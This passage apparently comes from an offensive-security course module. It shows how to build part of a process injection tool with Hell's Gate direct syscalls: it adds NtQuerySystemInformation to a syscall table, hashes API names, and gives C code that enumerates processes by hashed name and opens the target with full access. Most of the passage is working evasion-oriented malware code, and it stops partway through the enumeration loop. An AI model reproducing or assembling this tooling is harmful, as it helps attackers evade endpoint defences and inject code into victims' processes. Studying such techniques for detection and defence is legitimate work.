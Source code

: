 ```
		return FALSE;
	}

	return TRUE;
}

```
### **Process Enumeration**

In order to create a complete process injection module, the usage of the `NtQuerySystemInformation` syscall is required to fetch a target process handle, as outlined in the *Process Enumeration - NtQuerySystemInformation* module.

The use of a new syscall will require the `VX_TABLE` structure to be updated to include one more element, `VX_TABLE_ENTRY NtQuerySystemInformation` for it to be initialized by the `InitializeSyscalls` function. Additionally, use the `Hasher` program to calculate a hash value for the "NtQuerySystemInformation" string.


```
BOOL GetRemoteProcessHandle(IN LPCWSTR szProcName, IN DWORD* pdwPid, IN HANDLE* phProcess) {

	ULONG					    uReturnLen1 		= NULL,
						        uReturnLen2 		= NULL;
	PSYSTEM_PROCESS_INFORMATION  SystemProcInfo 	= NULL;
	PVOID					    pValueToFree 	= NULL;
	NTSTATUS				    STATUS 			= NULL;

	// This will fail with status = STATUS_INFO_LENGTH_MISMATCH, but that's ok, because we need to know how much to allocate (uReturnLen1)
	HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
	HellDescent(SystemProcessInformation, NULL, NULL, &uReturnLen1);

	// Allocating enough buffer for the returned array of `SYSTEM_PROCESS_INFORMATION` struct
	SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (SIZE_T)uReturnLen1);
	if (SystemProcInfo == NULL) {
		return FALSE;
	}

	// Since we will modify 'SystemProcInfo', we will save its intial value before the while loop to free it later
	pValueToFree = SystemProcInfo;

	// Calling NtQuerySystemInformation with the right arguments, the output will be saved to 'SystemProcInfo'
	HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
	STATUS = HellDescent(SystemProcessInformation, SystemProcInfo, uReturnLen1, &uReturnLen2);
	if (STATUS != 0x0) {
		printf("[!] NtQuerySystemInformation Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	while (TRUE) {

		// Small check for the process's name size
		// Comparing the enumerated process name to what we want to target
		if (SystemProcInfo->ImageName.Length && HASHW(SystemProcInfo->ImageName.Buffer) == HASHW(szProcName)) {
			// Opening a handle to the target process and saving it, then breaking
			*pdwPid = (DWORD)SystemProcInfo->UniqueProcessId;
			*phProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)SystemProcInfo->UniqueProcessId);
			break;
```